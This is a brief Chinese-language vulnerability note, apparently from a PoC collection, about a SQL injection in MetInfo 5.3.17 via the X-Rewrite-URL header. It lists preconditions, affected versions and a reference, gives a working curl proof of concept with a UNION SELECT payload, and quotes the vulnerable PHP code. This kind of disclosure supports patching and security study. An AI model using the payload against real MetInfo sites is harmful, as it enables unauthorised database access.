## MetInfo 5.3.17

### X-Rewrite-URL SQL注入

要求

* 管理员在 营销 -> SEO 下面，开启伪静态
* 管理员安装了至少两种语言包，只安装中文会导致 $lang 被覆盖，无法注入

影响版本

* <= 5.3.17

参考链接

* [Metinfo 5.3.17 前台SQL注入漏洞分析](https://paper.seebug.org/371/)

Poc

```
curl -I 'http://127.0.0.1/index.php?lang=Cn&index=xxxx' -H "X-Rewrite-URL: 'and 1=2 union select version(),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#/index.php"
```

关键代码

```
# config/config.inc.php
$met_index_type = $db->get_one("SELECT * FROM $met_config WHERE name='met_index_type' and lang='metinfo'");

..

if(count($met_langok)==1)$lang=$met_index_type;

# include/global.func.php
$dir_dirname=$dirs[count($dirs)-2];

...

if($lang==$met_index_type){
	
	...

} else {

	...

$query="select * from $met_column where foldername='$dir_dirname' and lang='$lang' and (classtype='1' or releclass!='0') order by id asc";

	...
```